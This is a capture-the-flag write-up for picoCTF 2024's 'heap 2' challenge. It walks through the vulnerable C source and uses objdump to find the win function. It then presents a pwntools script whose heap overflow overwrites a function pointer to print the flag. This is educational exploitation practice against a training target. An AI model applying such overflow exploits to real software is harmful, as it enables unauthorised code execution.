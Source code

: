 # heap 2

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: Binary Exploitation, picoCTF 2024, browser_webshell_solvable, heap
Author: ABRXS, PR1OR1TYQ

Description:
Can you handle function pointers?

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 61205
 
Hints:
1. Are you doing the right endianness?
```

Challenge link: [https://play.picoctf.org/practice/challenge/435](https://play.picoctf.org/practice/challenge/435)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.

```c
int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Main basically does the following:

- Initialize the heap by calling the `init` function
- Print the menu with the `print_menu` function
- Read the menu choice, basically 1-4, and do different things based on the choice

The big difference compared to the previous heap challenge is that the `check_win` function (menu choice 4) is "empty" and will call the address pointed to from the variable `x`

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

There is also a `win` function that will print the flag for us

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ file chall               
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d5184d264ae0c1259ba3bb7a1e20fc348b4274b0, for GNU/Linux 3.2.0, with debug_info, not stripped

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ ./chall                    

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x49e6b0  ->   pico
+-------------+-----------+
[*]   0x49e6d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 
```

As before, the difference between the memory positions is 32 bytes.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ python -c "print(0x49e6d0 - 0x49e6b0)"                                                 
32
```

The variable `x` is set to `bico` and if we try to print the flag we get a segmentation fault since `x` currently points to an invalid memory address.

```bash
Enter your choice: 3


x = bico


1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 4
zsh: segmentation fault  ./chall

```

### Create an exploitation script

We need to know the memory address of the `win` function in order to call it.
This can be done with `objdump`

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ objdump -t chall | grep win
00000000004011f0 g     F .text  0000000000000011              check_win
00000000004011a0 g     F .text  0000000000000042              win
```

So the `win` function is at `0x4011a0`.

Next, we write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to get the flag

```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 61205

# Set output level (critical, error, warning, info, debug)
context.log_level = "info"

io = remote(SERVER, PORT)

# Select menu option 2 (Write to buffer)
io.sendlineafter(b"Enter your choice: ", b'2')

# Send payload
win_func = 0x4011a0
payload = 32 * b'A' + p64(win_func)
io.sendlineafter(b"Data for buffer: ", payload)

# Select menu option 4 (Print Flag)
io.sendlineafter(b"Enter your choice: ", b'4')
print(io.recvallS())
io.close()
```

### Get the flag

Finally, we run the script and get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_2]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to mimas.picoctf.net on port 61205: Done
[+] Receiving all data: Done (42B)
[*] Closed connection to mimas.picoctf.net port 61205
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Endianness - Wikipedia](https://en.wikipedia.org/wiki/Endianness)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [Heap (data structure) - Wikipedia](https://en.wikipedia.org/wiki/Heap_(data_structure))
- [Heap overflow - Wikipedia](https://en.wikipedia.org/wiki/Heap_overflow)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
